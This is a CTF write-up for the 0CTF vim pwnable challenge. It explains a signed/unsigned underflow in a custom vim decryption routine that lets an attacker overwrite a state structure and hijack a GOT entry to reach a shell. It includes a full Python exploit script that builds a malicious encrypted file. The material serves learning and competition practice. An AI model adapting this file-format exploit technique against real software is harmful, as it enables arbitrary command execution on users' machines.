 # Pwn

0CTF is one of the best CTF events. It introduces some intermediate level real world pwn challenge. My team manages to solve the *vim* challenge. The *lua* is too difficult for me, but still interesting after reading its writeup

## if on a winter's night a traveler

This is a vim pwnable challenge. Basically, it provides us a binary file and a diff. From the diff, we can see that it adds a customized encryption method, which can be invoked by `:X`.

> We trigger the crash by `cat /dev/uradom > test; ./vim test` LoL

The `server.py` will read our input and then use vim to read it. Our goal is pretty clear now - this should be a *file format* style challenge. When the vim try to decrypt and parse the file, something goes wrong.

Let's see the decrypt part:
```c
void crypt_perm_decode(
    cryptstate_T *state,
    char_u	*from,
    size_t	len,
    char_u	*to) 
{
    perm_state_T *ps = state->method_state;
    size_t	i;

    if (len<=4)
    {
        for (i = 0; i < len; ++i)
            to[i] = from[i];
        return;
    }

    unsigned int iv;
    for (i = 0; i < 4; ++i)
    {
        to[i] = from[i];
        iv = (iv<<8) + from[i];
    }
    ps->orig_size = len-4;
    ps->size = ps->orig_size;
    while (!is_prime(ps->size))
        ps->size++;

    ps->shift = ps->key % (len-4);
    if (ps->shift > 0)
        ps->buffer = alloc(ps->shift);
    ps->step = ps->key ^ iv;
    if (ps->step % ps->size == 0)
        ps->step++;
    ps->cur_idx = 0;

    /* Step 1: Inverse of Multiplication */
    i = 4;
    while (i < len)
    {
        if (ps->cur_idx < ps->orig_size)
        {
            to[ps->cur_idx+4] = from[i];
            i++;
        }
        ps->cur_idx = (ps->cur_idx+ps->step)%ps->size;
    }

    /* Step 2: Inverse of Addition */
    for (i = 0; i < ps->shift; ++i)
        ps->buffer[i] = to[i+4];
    for (i = 4+ps->shift; i < len; ++i)
        to[i-ps->shift] = to[i];
    for (i = 0; i < ps->shift; ++i)
        to[len-ps->shift+i] = ps->buffer[i];

    if (ps->shift > 0)
        vim_free(ps->buffer);
}
```

The `from` is buffer of our file, and `to` is the buffer after decrypting. At the very beginning, it loads first 4 bytes(skip the magical header) to `iv`, which will be later loaded to ` ps->step = ps->key ^ iv;`, and eventually to `ps->cur_idx = (ps->cur_idx+ps->step)%ps->size;`. Let's have a quick recap of `ps`'s structure to reveal the issue here:
```c
typedef struct {
    int key;
    int shift;
    int step;
    int orig_size;
    int size;
    int cur_idx;
    char_u *buffer;
} perm_state_T;
```

Since we can control `iv` from the first 4 bytes. And `iv` is unsigned, but `cur_idx` and `sgep` are signed. We can underflow `to[ps->cur_idx+4] = from[i];` to overwrite previous structure `perm_state_T`. 

We can change `buffer` to GOT table, and finally overwrite it to `do_shell` to get shell.

Script from [Anciety](https://twitter.com/Anciety2):
```python
from pwn import *
import struct

def p32(content):
    return struct.pack('>I', content)

def p64(content):
    return struct.pack('>Q', content)

def main():
    magic = b'VimCrypt~04!'
    free_at_got = 0x8a8238
    #do_shell = 0x45f101
    do_shell = 0x4c9163

    write_what = b'\x6d'
    write_to = free_at_got - 8
    
    payload = p32(0xffffffff ^ 0x61)
    payload += write_what
    payload += p32(0xffffffff ^ 0x61)
    payload += p64(0x21)
    payload += p64(0)
    payload += p64(write_to) # buffer
    payload += b'\x00' # 1117
    binsh = bytes(reversed(b'/bin/sh;'))
    payload += (p64(do_shell)).rjust(0x6a - 0x34, b'\x00') # 1169 -> 1134 (to)
    payload += b'a' * 4
    payload += p64(0x21)
    payload += p64(0)
    payload += p64(write_to)
    payload += p64(0xffffffe0)
    payload += p64(0xb3)[:7]
    payload += p64(0x4036d6)
    payload += 'a'
    payload += p64(0xffffffff)
    payload += '\x00' * 8
    payload += p64(do_shell)[1:]
    payload += '\x00\x00*f tac'
    #payload += '\x00\x00\x00\x00\x00\x00'
    payload += cyclic((0xc4 - 0x6a - 4 - 8 - 8 - 8 - 8 - 8 - 8 - 8 - 8 - 24))
    payload += p64(do_shell)


    with open('exp', 'wb') as f:
        f.write(magic + payload)


if __name__ == '__main__':
    main()
```

> A kind remind: if your reverse skill is as bas as mine, you's better use debug version vim